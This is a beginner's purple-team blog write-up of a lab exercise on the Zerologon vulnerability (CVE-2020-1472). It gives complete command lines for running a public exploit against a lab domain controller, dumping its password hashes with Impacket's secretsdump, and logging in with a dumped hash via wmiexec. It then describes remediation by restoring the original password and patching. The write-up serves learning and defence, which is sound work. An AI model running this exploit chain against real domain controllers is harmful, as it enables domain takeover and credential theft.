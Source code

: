 # CVE - 2020–1472 (Zerologon Vulnerability)-Exploitation & Remediation

**NOTE**: This is my first vulnerability-related writeup and I have tried to write and explain in layman terms. There may be knowledge gaps in between, which I am trying my hardest to cover and understand

**I have tried to reproduce the vulnerability in this blog entry, while trying to understand it's severity and impact**

## **Section 1 — Exploiting Zerologon Vulnerability(CVE 2020–1472)**

### **About the Vulnerability**

Netlogon is a service that runs on the Domain Controller. This service is responsible for authenticating user logins — effectively verifying the user is who they claim to be. As this function is one of the core functions of a Domain Controller, the Netlogon service cannot be stopped or firewalled off from networks of domain-joined computers.

* CVSS Score — 10
* Attack Complexity — Low
* Privileges Required — Low
* Vulnerability Found — July 2020​

![](https://cdn-images-1.medium.com/max/1000/1\*zdJeAc4HdVPaL8jvpmfpWw.png)

### E**xploitable Point**

The Netlogon RPC service, used for computer and user authentication in Windows, also allows a computer to update its computer password within the domain. For several historical reasons, this service does not use standard authentication protocols to authenticate the computer. The vulnerability exists within the non-standard method used to authenticate.

Twitter thread providing a nice walkthrough — [https://twitter.com/\_dirkjan/status/1306280553281449985](https://twitter.com/\_dirkjan/status/1306280553281449985)

## E**xploitation Walkthrough**

> What do you need?&#x20;
>
> Impacket — to capture password hashes and dump them&#x20;
>
> Windows 10 OS (on which the vulnerable service exists)&#x20;
>
> Windows 10 VM — to perform the exploit on RangeForce’s&#x20;
>
> ZeroLogon Vulnerability Lab (Guided Mode)

First, let’s clone the [impacket](https://github.com/SecureAuthCorp/impacket) repository from Github&#x20;

Step to install:-

> `git clone` [`https://github.com/SecureAuthCorp/impacket.git`](https://github.com/SecureAuthCorp/impacket.git)``

Now, let’s copy the exploit too from Github \<cve-2020–1472-exploit.py>

Credits to [dirkjanm](https://github.com/dirkjanm).

> [https://github.com/dirkjanm/CVE-2020-1472/blob/master/cve-2020-1472-exploit.py](https://github.com/dirkjanm/CVE-2020-1472/blob/master/cve-2020-1472-exploit.py)

Export the exploit to /impacket/examples/CVE-2020–1472/

Now, let’s switch to this directory

By now, we have identified the following details about the vulnerable service:-

> NetBIOS computer name: DC IP address: 192.168.0.4

> Syntax of exploit command:- ./cve-2020–1472-exploit.py -n \<NetBIOS computer name> -t \<IP address>

Now to run the script and exploit

> `./cve-2020–1472-exploit.py -n DC -t 192.168.0.4​`

![What does this exploit do?](https://cdn-images-1.medium.com/max/1000/1\*yq9qEq8dTnIFQwn39Wt-Fw.png)

### **What does this exploit do?**

It resets the Domain Controller’s account password to an empty string(easy login with a spacebar)

The gist: Your Domain Controller account’s password is a blank string

**Next objective-**dump password hashes from the Domain Controller

> Domain Controller name NetBios Name IP Address of vulnerable host

We make use of the secretsdump.py module from Impacket to perform this task

> Password Dump command syntax- python3 secretsdump.py -no-pass -just dc\<Domain/NETBIOS\_NAME\\\[email protected]>

(This command does not work with the simple execution command ./)

Filling in the blanks:-

> `python3 secretsdump.py -no-pass -just-dc CONTOSO.AZURE/DC\$@192.168.0.4`

![This leads to the dumping of around 60 password](https://cdn-images-1.medium.com/max/1000/1\*t2iS-\_QDxa2kfwo3JlOdBw.png)

&#x20;This leads to the dumping of around 60 password hashes:-

​

![](https://cdn-images-1.medium.com/max/1000/1\*GZye3Qhobt6Qf\_7HQruMxQ.png)

​**Next objective** — Logging onto the account of ContosoAdmin (Domain Controller admin’s account) — using the account’s dumped hash

Scrolling through the dumped list, we find the appropriate entry:-​

![](https://cdn-images-1.medium.com/max/1000/1\*KpuYcdLqTSeE6BvaneTOOQ.png)

Logging on to the server, using the wmiexec.py module:-

> `python3 wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:a2bd759faf686d052f5f7c8337a2ff51 CONTOSO.AZURE/DC\$@192.168.0.4`

​We are in!

![](https://cdn-images-1.medium.com/max/1000/1\*1Ai0FvKkDd-jXyAVQLsHzg.png)

## Se**ction 2 — Remediation from the Vulnerability**

**How?**

* Manually restoring your password (or)
* Update and install the August 2020 & February 2021 Patch Tuesday release for the same (patches released in two phases)

### **Manual Password Restore — How does it work?**

As you exploit the vulnerability, the password hash is being erased and replaced with a blank string in the SAM file, from where your computer cross-checks passwords as a user logs in

Using the same methodology, we copy your compromised password (blank space in this case) from the SAM hive to the Domain Controller of the exploited machine. Further, copy it to your Kali VM and then delete it from the Domain Controller

Which we achieve from the following steps:-

​

![](https://cdn-images-1.medium.com/max/1000/1\*GHrg-fhyBO30lYWDRwwhWw.png)

​Now exiting the Windows machine, using exit- to the Kali machine

The next task is to parse the obtained SAM file, from the Domain Controller

> secretsdump.py -sam sam.save -system system.save -security security.save LOCAL Why parse? — To see where accounts are mapped to and to gain other information​![](https://cdn-images-1.medium.com/max/750/1\*q8r1dbLK4yGkr2R2QhjSAQ.png)![](https://cdn-images-1.medium.com/max/1000/1\*ZBl3hRpBypYvSE4FreGP-A.png)

> Recovered password hash — 89ed2eb25e25770b7dd850e797ef8c7b49cc4d793ea50f9db33fe91cde5b97c20b8aa582a3acd371618e7f7ed5ad9ee87df1d073641c6718cb63ed7409711480

Now to place the final piece of the jigsaw — restoring the original password. For that, we have a customized script named — reinstall\_original\_pw.py

> Syntax — reinstall\_original\_pw.py \<DC\_NETBIOS\_NAME> \<DC\_IP\_ADDR> \<ORIG\_NT\_HASH>

Filling in the blanks here,

> `./reinstall_original_pw.py DC 192.168.0.4 89ed2eb25e25770b7dd850e797ef8c7b49cc4d793ea50f9db33fe91cde5b97c20b8aa582a3acd371618e7f7ed5ad9ee87df1d073641c6718cb63ed7409711480`

## Conclusion

This is an easy vulnerability to exploit, with less complexity, considering that we are still dependant on IT Systems to perform administrative tasks. This may be disputed, but 100% security may be a myth unless drastic action is taken to respond and patch even the slightest of issues

Thank you for the time taken to devour this purple team blog entry.

## Your opinion matters

My audience has a voice. Feel free to reach out to me, on my socials (links are on top of this page) for any queries to be addressed.Dropping a sweet message would make my day

Let your opinion about this write-up be known, by selecting any one of the emojis below!
